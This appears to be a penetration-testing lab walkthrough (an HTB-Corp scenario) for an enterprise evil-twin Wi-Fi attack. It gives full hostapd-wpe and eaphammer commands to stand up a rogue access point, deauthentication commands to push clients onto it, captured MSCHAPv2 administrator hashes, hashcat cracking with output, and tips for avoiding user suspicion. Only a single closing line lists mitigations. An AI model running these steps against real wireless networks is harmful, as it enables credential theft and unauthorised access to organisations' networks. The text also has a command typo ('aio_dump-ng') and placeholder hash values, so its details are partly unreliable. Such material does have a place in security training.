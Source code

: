 # Chain #28: Enterprise Evil-Twin Attack

In the previous section, we explored how to perform EAP downgrade attack to force clients into weaker authentication methods. However, if certain client devices resist downgrading to a sufficiently weak standard, we won't be able to carry out that attack. In these scenarios, when the client devices use challenge-response-based authentication methods like CHAP, MSCHAP, or MSCHAPv2, we can employ a traditional approach. This involves setting up an enterprise evil-twin attack by creating a fake access point (Rogue AP) to capture the challenge hash, which can then be leveraged for further exploitation.

> A scenario where the authenticator sends a challenge, and the supplicant (applicant) encrypts it with a password before sending it back for verification, is known as a challenge-response-based authentication method.

---

## Enumeration

We begin by enabling monitor mode on our `wlan0` interface using `airmon-ng`.

```bash
# Enable monitor mode
sudo airmon-ng start wlan0
```

```
Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    559 NetworkManager
    798 wpa_supplicant

PHY     Interface       Driver          Chipset

phy0    wlan0           rt2800usb       Ralink Technology, Corp. RT2870/RT3070
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
```

Scan target channel and list clients:

```bash
airodump-ng wlan0mon -c 1
```

```
 CH  1 ][ Elapsed: 6 s ][ 2024-08-23 09:47

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 9C:9A:03:39:BD:7A  -28 100       97        5    0   1   54   WPA2 CCMP   MGT  HTB-Corp

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 9C:9A:03:39:BD:7A  7E:0E:08:8F:6E:60  -29   12 -54      0        4
```

---

## Performing the Attack

We'll explore two ways to perform this attack. The first method involves using **hostapd-wpe**, where we manually create self-signed certificates and set up the access point. The second method utilizes the **eaphammer** tool, which automates the entire process for us.

### Using HostAPD-wpe

HostAPD-wpe is a versatile utility for attacking WPA/WPA2 Enterprise networks, handling most of the configuration for us with minimal interference. It is effective for impersonating the following EAP types:

- EAP-FAST/MSCHAPv2 (Phase 0)
    
- PEAP/MSCHAPv2
    
- EAP-TTLS/MSCHAPv2
    
- EAP-TTLS/MSCHAP
    
- EAP-TTLS/CHAP
    
- EAP-TTLS/PAP
    

Make a working copy of the config:

```bash
cp /etc/hostapd-wpe/hostapd-wpe.conf hostapd-wpe.conf
ls
# hostapd-wpe.conf
```

Edit **hostapd-wpe.conf** to match the target:

```ini
interface=wlan1
ssid=HTB-Corp
channel=1
```

List WPE options (note Cupid/Heartbleed and Karma support):

```bash
hostapd-wpe
```

```
hostapd-WPE v2.10
...
WPE options:
   -r   Return Success where possible
   -c   Cupid Mode (Heartbleed clients)
   -k   Karma Mode (Respond to all probes)
   Note: credentials logging is always enabled
```

Launch the rogue AP with Cupid + Karma:

```bash
sudo hostapd-wpe -c -k hostapd-wpe.conf
```

```
rfkill: Cannot open RFKILL control device
random: Only 15/20 bytes of strong random data available
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED
```

Monitor both real and rogue APs:

```bash
aio_dump-ng wlan0mon -c 1
```

```
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 00:11:22:33:44:00  -28 100       97        0    0   1   54   WPA2 CCMP   MGT  HTB-Corp
 9C:9A:03:39:BD:7A  -28 100       97        5    0   1   54   WPA2 CCMP   MGT  HTB-Corp
```

If clients stick to the real AP, force roam with deauth:

```bash
sudo aireplay-ng -0 10 -a 9C:9A:03:39:BD:7A -c 7E:0E:08:8F:6E:60 wlan0mon
```

Example capture from **hostapd-wpe** (MSCHAPv2 challenge/response):

```
wlan1: STA 7e:0e:08:8f:6e:60 IEEE 802.11: authenticated
wlan1: STA 7e:0e:08:8f:6e:60 IEEE 802.11: associated (aid 1)
...
mschapv2: Wed Aug 21 12:52:31 2024
	 username:		HTB-NET\Administrator
	 challenge:		45:14:53:22:49:08:8c:58
	 response:		10:51:1c:55:42:d6:04:1d:b2:2a:d6:29:73:ad:76:0c:6f:f5:07:d3:3a:dd:6d:b3
	 jtr NETNTLM:		Administrator:$NETNTLM$as65a4sd564d1a2s$54as56d65asasd55asd564asd564asd555asd564as6d55s5
	 hashcat NETNTLM:	Administrator::::54as56d65asasd55asd564asd564asd555asd564as6d55s5:as65a4sd564d1a2s
```

> Since this is _not_ a negotiated downgrade to GTC/TTLS-PAP, you typically won’t get cleartext passwords—plan to crack the MSCHAPv2 material.

### Using Eaphammer

Create self-signed certs:

```bash
/opt/eaphammer/eaphammer --cert-wizard
```

Start a rogue WPA-EAP AP:

```bash
/opt/eaphammer/eaphammer -i wlan1 -e HTB-Corp --auth wpa-eap --wpa-version 2
```

```
[hostapd] AP starting...
wlan1: AP-ENABLED
```

Force roam if needed:

```bash
sudo aireplay-ng -0 10 -a 9C:9A:03:39:BD:7A -c 7E:0E:08:8F:6E:60 wlan0mon
```

Example loot (NETNTLM/MSCHAPv2 material):

```
mschapv2: Sat Aug 24 20:07:21 2024
	 domain\username:	HTB-NET\Administrator
	 username:	    	Administrator
	 challenge:	    	45:14:53:22:49:08:8c:58
	 response:	    	10:51:1c:55:42:d6:04:1d:b2:2a:d6:29:73:ad:76:0c:6f:f5:07:d3:3a:dd:6d:b3
	 jtr NETNTLM:		Administrator:$NETNTLM$as65a4sd564d1a2s$54as56d65asasd55asd564asd564asd555asd564as6d55s5
	 hashcat NETNTLM:	Administrator::::54as56d65asasd55asd564asd564asd555asd564as6d55s5:as65a4sd564d1a2s
```

---

## Cracking the Hash

Pick a candidate wordlist (e.g., **rockyou** or custom corp lists) and crack the NETNTLM/NTLMv1 material with Hashcat.

```bash
hashcat -m 5500 -a 0 'HTB-NET\Administrator::::54as56d65asasd55asd564asd564asd555asd564as6d55s5:as65a4sd564d1a2s' wordlist.dict
```

Sample cracked output:

```
HTB-NET\Administrator::::54as56d65asasd55asd564asd564asd555asd564as6d55s5:as65a4sd564d1a2s:Wowwhatasecurepassword123
Status...........: Cracked
Hash.Mode........: 5500 (NetNTLMv1 / NetNTLMv1+ESS)
```

If cracking fails (strong password policy), consider a **PEAP relay**: relay captured NTLM to the real AP to obtain a live session without knowing the plaintext.

---

## Notes & Tips

- Karma/rogue AP beacons help clients discover the fake AP, but placement and RF conditions matter; be close to targets.
    
- Use DN fields (CN/O/OU, etc.) that closely mimic the real certs to reduce user prompts and suspicion.
    
- Some clients enforce server cert pinning/validation; downgrades may fail and only MSCHAPv2 loot will be possible.
    
- Prefer GPU cracking for speed; try rules-based and mask attacks after dictionary passes.
    
- Blue-team mitigations: enforce server certificate validation, use EAP-TLS with client certs, disable PEAP/MSCHAPv2, enable 802.11w PMF, and monitor for rogue SSIDs.